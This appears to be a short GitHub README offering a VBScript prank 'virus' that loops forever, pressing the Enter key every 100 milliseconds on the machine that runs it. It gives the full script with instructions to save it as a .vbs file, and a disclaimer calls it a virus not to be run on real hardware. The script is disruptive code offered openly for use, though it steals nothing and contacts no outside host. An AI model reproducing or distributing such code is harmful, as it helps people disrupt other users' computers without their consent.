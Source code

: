 # Endless Enter Button Clicker VBS File Virus
This code will Continuously Hit Enter Button After Executing The Files. 
<br>
# or

# copy the following code in notepad and save that with .vbs extention

```vbs
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

